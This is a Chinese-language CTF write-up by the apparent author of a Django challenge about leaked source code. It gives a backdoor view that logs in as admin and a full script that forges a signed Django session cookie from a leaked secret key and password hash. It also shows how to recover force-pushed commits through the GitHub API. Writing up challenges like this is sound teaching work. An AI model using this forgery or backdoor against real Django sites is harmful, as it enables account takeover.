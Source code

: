 # 被泄漏的姜戈

本题的灵感来源于……大家应该都知道了，我就不写了。

首先，题面非常清楚提示了：

> 好像还在什么 hub 还是 lab 来着建了一个叫 openlug……

所以第一步是找到这玩意泄漏出的源代码（和数据库），否则是不可能做出来的。为什么会有人拿个 `sqlmap` 一通扫啊……醉了。

最终，你可以在 https://github.com/openlug/django-common 或者 https://gitlab.com/openlug/django-common 找到源代码。用 `openlug` 和 `Rabbit House` 都是能搜到结果的。

## 简单的解法

需要简单学习 Django，并添加一个可以让你登录为 admin 的路由。

在 `app/views.py` 添加：

```python
from django.contrib.auth.models import User
def backdoor(request):
    user = User.objects.get(username="admin")  # 使用 Django ORM 选择 admin 用户
    login(request, user) # 以 admin 的身份登录
    return redirect(reverse("profile")) # 跳转到 profile
```

然后在 `app/urls.py` 里的 `urlpatterns` 里面添加 URL：

```python
path('backdoor', views.backdoor, name='backdoor')
```

然后开跑：

```
python manage.py runserver
```

访问我们加入的 backdoor，就可以看到 admin 的 cookie 了。把这个 cookie 复制，在 Console 里面 `document.cookie=...` 给 cookie 赋值，进入 `/profile` 就行了。

## 复杂的解法

这是我最开始出完题之后使用的解法。这种解法需要去看 Django 的源代码，了解其是如何处理 session 的。

首先根据 https://docs.djangoproject.com/en/2.2/topics/http/sessions/#using-cookie-based-sessions ，加上 `settings.py` 里面的设置，可以看到 session 设置成了签名后存储在 cookie 中。文档同时也给了一个 RCE 警告，但是因为我们没有用 `PickleSerializer`，所以没有这个漏洞。

### 从签名还原 session

登录为 guest，可以看到 guest 的 cookie 为

```
sessionid=.eJxVjDEOgzAMRe_iGUUQULE7du8ZIid2GtoqkQhMVe8OSAzt-t97_wOO1yW5tersJoErWGh-N8_hpfkA8uT8KCaUvMyTN4diTlrNvYi-b6f7d5C4pr1uGXGI6AnHGLhjsuESqRdqByvYq_JohVDguwH3fzGM:1iLiU1:d4koNGDuy18fbggeMbGhprUL_gs
```

然后呢？如果直接用 https://docs.djangoproject.com/en/2.2/topics/signing/ 里的方式，用 `signing.loads(value)` 的话，只能得到一条 Exception。我们要看 `django.contrib.sessions.backends.signed_cookies` 的实现。在此类的 `load` 方法中，可以看到：

```python
return signing.loads(
                self.session_key,
                serializer=self.serializer,
                # This doesn't handle non-default expiry dates, see #19201
                max_age=settings.SESSION_COOKIE_AGE,
                salt='django.contrib.sessions.backends.signed_cookies',
            )
```

它加盐了。我们用这个盐重新加载：

```python
value = ".eJx（之后的内容省略）"
signing.loads(value, salt='django.contrib.sessions.backends.signed_cookies')
```

可以看到 guest session 是：

```python
{'_auth_user_id': '2', '_auth_user_backend': 'django.contrib.auth.backends.ModelBackend', '_auth_user_hash': '0a884f8b987fca1a92c6f93d9042d83eea72d98d'}
```

### 修改 session

我们的目标是让 `_auth_user_id` 为 1，并且改变后面对应的 `_auth_user_hash`，使 Django 认为我们的 cookie 是正确的。但后面那个 `_auth_user_hash` 又是个什么东西？

搜索 `_auth_user_hash`，可以找到 https://docs.djangoproject.com/zh-hans/2.2/_modules/django/contrib/auth/ ，其中对应到了 `HASH_SESSION_KEY` 变量，最终可以找到 `user.get_session_auth_hash()`。

这个函数的实现在 `django/contrib/auth/base_user.py`。

```python
def get_session_auth_hash(self):
    """
    Return an HMAC of the password field.
    """
    key_salt = "django.contrib.auth.models.AbstractBaseUser.get_session_auth_hash"
    return salted_hmac(key_salt, self.password).hexdigest()
```

这里的 `self.password` 不是原始密码，而是数据库中存储的密码哈希。读一下附送的 SQLite 数据库的 `auth_user` 表就可以了。

最终 exp 如下：

```python
from django.core import signing
from django.utils.crypto import salted_hmac

admin_hash = "pbkdf2_sha256$150000$KkiPe6beZ4MS$UWamIORhxnonmT4yAVnoUxScVzrqDTiE9YrrKFmX3hE="

_auth_user_hash = salted_hmac("django.contrib.auth.models.AbstractBaseUser.get_session_auth_hash",
                              admin_hash).hexdigest()

payload = {'_auth_user_id': '1',
           '_auth_user_backend': 'django.contrib.auth.backends.ModelBackend',
           '_auth_user_hash': _auth_user_hash}

cookie = signing.dumps(payload,
                       salt='django.contrib.sessions.backends.signed_cookies',
                       compress=True)

print(cookie)
```

## 花絮

### 关于 Django

一开始想出这个题，是因为自己在网上找到了铺天盖地的如何构造 Flask 的 session 和使用 Django signed cookies 的 `PickleSerializer` 的 wp，但是怎么找都找不到怎么构造 Django 的 session，才开写的。

本来这道题可以变成一道比较难的 web，但被 Z 同学发现了简单解之后，一下子就变简单了，而且我也没什么时间去改，于是就变成这样了。

其实 Django 还是挺靠谱的，单单泄漏 secret key 而不泄漏密码哈希也是搞不了这样的效果的，而且为了整出这样的「漏洞」，并方便大家测试，特地把 Django 的默认设置进行了一些魔改，包括使用 cookies（而不是在数据库里存 session）等等。

此外为了能够只读挂 SQLite 数据库，对 Django 进行了一下 monkey patch：

```python
from django.contrib.auth import models


def update_last_login(sender, user, **kwargs):
    pass


models.update_last_login = update_last_login
```

这样登录 guest 用户的时候，数据库里最后登录时间就不会更新。

最后在 `settings.py` 里面，还留了一个小彩蛋：

> SECURITY WARNING: keep the secret key used in production **non-secret**!

### 关于命名

嗯？至于你问为什么要起名叫「Rabbit House 成员管理系统」？这是因为在写题目的时候，社团活动室的一位同学正在尝试在 Minecraft 里面搭建点兔式的小镇与咖啡馆，于是我就这么起名字了，反正没有人会这么给自己的项目命名，也更好搜索。

至于那个咖啡馆，最后确实建成了，只是附近多出了好几个核弹坑而已。~~咖啡厅孤岛~~ ~~点兔终末旅行~~

### 你知道吗？Force push 来「撤销」机密信息的提交很多时候是没有用的。

一开始在上传到 GitHub 的 openlug 的私仓的时候，一不小心把带 flag 的文件交上去了。一开始我就直接 force push 覆盖了，但是之后舍友 F（也是正则那道题的出题人）提醒我还有问题（见 https://ibugone.com/blog/2019/06/save-commit-from-github/）。~~差点被非预期~~

本地，可以输入 `git reflog` 来看你所有的修改记录，包括你的 `reset --hard` 操作。以下是一个示例。

```
$ git reflog
fccf006 (HEAD -> master) HEAD@{0}: reset: moving to fccf0069b5de863e35ff00a64308176c40bc343a
d5244a8 HEAD@{1}: commit: add
fccf006 (HEAD -> master) HEAD@{2}: commit (initial): init
```

可以使用 `git reset SHA1` 回到 reset 之前的状态。

尽管 `reflog` 不会被上传到 git 服务器中，但是很多 git 服务也还是保留着记录的（就算你 force push）。比如说 GitHub：

```
curl https://api.github.com/repos/用户名/仓库名/events
```

你会惊讶地发现，你就算 force push，记录还被保存着。那怎么获取这条记录的内容呢？我们拿到 commit 的 SHA1，之后：

```
wget https://api.github.com/repos/用户名/仓库名/tarball/SHA1
```

就能下载下来了。

嗯？你问我一不小心把密码传上了 GitHub 公开仓库怎么办？你还是赶紧改密码吧。

当然一个好消息是：GitHub 不会存你所有的记录。

> Events support [pagination](https://developer.github.com/v3/#pagination), however the `per_page` option is unsupported. The fixed page size is 30 items. Fetching up to ten pages is supported, for a total of 300 events.
>
> Only events created within the past 90 days will be included in timelines. Events older than 90 days will not be included (even if the total number of events in the timeline is less than 300).

(from: https://developer.github.com/v3/activity/events/#list-public-events)